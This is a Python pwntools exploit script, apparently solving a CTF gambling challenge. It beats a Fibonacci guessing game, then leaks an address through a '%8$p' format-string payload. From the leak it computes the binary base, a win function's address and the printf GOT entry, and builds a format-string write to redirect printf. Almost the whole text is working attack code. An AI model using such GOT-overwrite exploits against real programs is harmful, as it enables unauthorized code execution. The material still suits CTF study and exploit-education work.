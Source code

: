 ```python
def gamble():
    P.recvuntil(b': ', drop=True)
    P.sendline(b"1")  # Send the amount to gamble

    P.recvuntil(b'1) ', drop=True)
    one = int(P.recvline().strip())  
    log.info(f'[1] : {one}')

    P.recvuntil(b'2) ', drop=True)
    two = int(P.recvline().strip())  
    log.info(f'[2] : {two}')

    P.recvuntil(b'3) ', drop=True)
    three = int(P.recvline().strip()) 
    log.info(f'[3] : {three}')

    P.recvuntil(b'4) ', drop=True)
    four = int(P.recvline().strip()) 
    log.info(f'[4] : {four}')

    P.recvuntil(b'5) ', drop=True)
    five = int(P.recvline().strip()) 
    log.info(f'[5] : {five}')
    
    if not is_fibonacci(one):
        P.sendline(b"1")
        log.info(f'Selected [1] : {one}')
    elif not is_fibonacci(two):
        P.sendline(b"2")
        log.info(f'Selected [1] : {two}')
    elif not is_fibonacci(three):
        P.sendline(b"3")
        log.info(f'Selected [3] : {three}')
    elif not is_fibonacci(four):
        P.sendline(b"4")
        log.info(f'Selected [4] : {four}')
    else:
        P.sendline(b"5")
        log.info(f'Selected [5] : {five}')
   
def exploit():
    payload = b'%8$p' # stores buffer
    P.sendlineafter(b'?\n', payload)
    P.sendlineafter(b'What will you do?\n', b'g')
    
    gamble()

    leak = P.recvuntil(b'!',drop=True)[14:]
    log.info(f"Leaked: {leak}")
    P.recvuntil(b'continue...\n', drop=True)

    base = int(leak, 16) - 0xd8 - 0x1e08        # try 0xd8 or 459
    win = base + 0x1219                         # win function
    target = base + 0x4258                      # printf GOT

    log.info(f"TARGET function address: {hex(target)}")
    log.info(f"WIN function address: {hex(win)}")

    payload = build_format_string(target, win, start_byte=5 + 9) # 9 bytes corresponds to initial length of payload before addresses are read
    log.info(f"Payload: {payload}")
    
    P.sendline()
```